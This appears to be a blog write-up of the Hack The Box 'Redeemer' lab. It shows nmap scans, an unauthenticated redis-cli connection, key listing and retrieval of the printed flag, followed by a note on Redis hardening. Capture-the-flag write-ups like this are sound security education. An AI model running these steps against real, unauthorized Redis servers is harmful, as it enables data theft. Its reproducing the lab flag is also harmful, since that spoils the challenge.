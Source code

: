 ```yaml
---
layout: post
title: "Redeemer – Hack The Box"
categories: htb
date: 2025-07-19
---
```


## 🧠 Summary
Redeemer is a very easy HTB machine focusing on exploiting an exposed Redis database with no authentication. The goal is to enumerate open ports, connect to Redis, and retrieve the stored flag.

---

## 🎯 Target Information
- **IP Address:** `10.129.10.227`
- **OS:** Linux (based on Redis service)
- **Difficulty:** Very Easy
- **Tags:** Redis, Database Exploitation, Anonymous Access, Enumeration

---

## 🔍 Tools Used
- **Nmap** – Network scanning
- **redis-cli** – Redis client for interaction

---

## ✅ Steps to Exploit

### 1. Enumerate Open Ports with Nmap
Perform a full TCP scan to discover open ports:

```bash
nmap -p- --open 10.129.10.227
```
Result:
Port 6379 open (Redis).

Run a detailed scan on port 6379:
```bash
nmap -sC -sV -p 6379 10.129.10.227
```
Output shows:
```bash
6379/tcp open  redis  Redis key-value store 5.0.7
```
![Nmap Scan Result](/assets/img/htb/redeemer/nmapredeemer.jpg)

### 2. Connect to Redis
Using redis-cli:
```bash
redis-cli -h 10.129.10.227
```
Once connected, list all keys:
```bash
KEYS *
```
Retrieve the value of the key named flag:
```bash
GET flag
```
Flag:
```bash
03e1d2b376c37ab3f5319922053953eb
```
![Redis CLI & Flag Retrieval](/assets/img/htb/redeemer/rediscli.jpg)

### ⚠️ Security Note
Redis should never be exposed to the internet without authentication. Misconfiguration can allow attackers to:
- Read/write sensitive data.
- Persist backdoors on the system.
- Escalate to full system compromise.

### Key Takeaways
- Always scan for unusual open ports.
- Redis without AUTH is a critical misconfiguration.
- Use nmap --script redis-info for additional enumeration in real-world scenarios.

